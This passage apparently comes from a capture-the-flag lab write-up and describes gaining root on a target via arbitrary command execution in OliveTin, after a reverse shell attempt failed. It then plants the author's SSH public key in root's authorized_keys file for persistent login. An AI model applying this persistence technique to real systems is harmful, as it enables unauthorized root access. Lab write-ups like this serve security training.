I first tried spawning a reverse shell, but the session died after just a couple of seconds, as OliveTin seems to kill child processes right after execution. Checking the /root directory revealed a `.ssh` directory. Since we have arbitrary command execution with root privileges, we can simply replicate the method used for the user flag: append our public SSH key to `/root/.ssh/authorized_keys` and log in directly via SSH.

Get the root flag:

